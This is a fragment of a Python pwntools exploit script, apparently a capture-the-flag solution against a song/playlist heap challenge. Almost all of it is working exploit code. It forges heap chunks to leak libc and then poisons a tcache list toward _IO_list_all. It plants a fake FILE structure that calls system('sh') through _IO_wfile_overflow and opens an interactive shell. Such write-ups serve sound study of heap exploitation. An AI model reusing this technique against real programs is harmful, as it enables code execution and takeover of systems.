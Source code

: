 ```py
    create_song(b"A"*0x20, b"B"*0x20, b"C"*0x20) #1~9

for i in range(7):
    delete_song(i + 2)

fake_chunk_addr = heap_base + 0x390 # TODO
create_playlist("aaaa", b"a"*0xd0 + p64(0) + p64(0x131) + p64(fake_chunk_addr) + p64(fake_chunk_addr)+p64(0)*2)
edit_song(0, "R", b"c"*0x50 + p64(0x130))
delete_song(1)
dbg()
p.recvuntil("[0x0100] ")
libc_leak = int(p.recvline().strip(), 16)
log.info("libc leak: " + hex(libc_leak))
libc_base = libc_leak - 0x1e7d40
log.info("libc base: " + hex(libc_base))

io_list_all = libc_base + libc.symbols["_IO_list_all"]
system = libc_base + libc.symbols["system"]
fake_io_addr = heap_base + 0xbd0 # TODO
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x1e97a0)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x1E61C8+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)

fake_io_file_str = fake_io_file.decode("latin-1")
create_song(fake_io_file_str[:72],fake_io_file_str[72:160], fake_io_file_str[160:]) # 2
create_song(b"A"*0x20, b"B"*0x20, b"C"*0x20) # 2, 3

delete_song(0)
create_playlist(b"aaaa", p64(0) + p64(0x101) + p64(io_list_all^(leak)))
create_song(p64(fake_io_addr), b"B"*0x20, b"C"*0x20)
create_song(p64(fake_io_addr), b"B", b"C")
p.recvuntil("Choice: ")
p.sendline("0")
# gdb.attach(p)
# pause()
p.interactive()
```
